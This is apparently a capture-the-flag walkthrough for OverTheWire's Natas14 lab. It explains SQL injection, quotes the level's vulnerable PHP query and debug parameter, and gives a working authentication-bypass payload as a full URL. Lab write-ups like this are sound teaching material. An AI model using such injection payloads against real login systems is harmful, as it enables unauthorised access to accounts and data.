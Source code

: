 # 🔐 Natas14 Walkthrough

We’re presented with a login form. This hints that **SQL Injection** might be the intended path forward.


## 💡 What is SQL Injection?

SQL Injection is a technique used to manipulate a website’s database through its input fields.

### 🔎 Example

Imagine a login system with a SQL query like this:

```php
SELECT * FROM users WHERE username = "$username" AND password = "$password";
```

Now suppose the attacker enters the following credentials:

```
username: admin  
password: password" OR "1 --
```

The query becomes:

```php
SELECT * FROM users WHERE username = "admin" AND password = "password" OR "1" --";
```

Let's break it down:
- `"password"` ends the password value.
- `OR "1"` (shorthand for "1" = true) makes the condition always true.
- `--` comments out the rest of the SQL query (optional, but often helpful).

So the condition simplifies to:

```
username = "admin" AND (false) OR (true)
```

Which effectively bypasses the password check and logs in as `admin`.

## ✅ Exploit

Now, let’s check the [View sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html) for Natas14.

From the source, we see:

```php
$link=mysqli_connect('localhost', 'natas14', '<censored>');  
mysqli_select_db($link, 'natas14');
```

This confirms that usernames and passwords are stored in a database.

And here’s an interesting part:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

This enables a "debug mode" if we include `debug` as a URL parameter. 
This lets us **see the SQL query** that gets executed — super useful!

Try opening this in your browser:

```
http://natas14.natas.labs.overthewire.org/index.php?username=&password=&debug
```

You’ll see the SQL query being built with the given parameters.

Now try to put something into the `password` and `username` variables:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

You should see your input on the website screen. Making it easier to manipulate the sql injection with `""`.

## 🐛 The Vulnerable Code

The vulnerable line is:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

This directly inserts raw user input into the SQL query — a classic SQL injection vulnerability.

Let’s simplify it by removing the `\` backticks:

```php
SELECT * FROM users WHERE username = "$userProvidedUsername" AND password = "$userProvidedPassword";
```

This is almost identical to our earlier example — and just as vulnerable.

## 🎯 Final Attack

Use the following credentials in the **URL**, not the login form:

```
username: admin  
password: password" OR "1 (as you can see '--' not used)
```

So the final link looks like:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

This will generate a query like:

```php
SELECT * FROM users WHERE username = "admin" AND password = "" OR "1";
```

Which bypasses authentication and logs you in! You should now see the password for **Natas15**. :}


## Alternitevly 

You can use a dev tool like [Brup Suite](https://learnhacking.io/basic-web-skills-setting-up-burp-suite/) which i will cover in a different file.
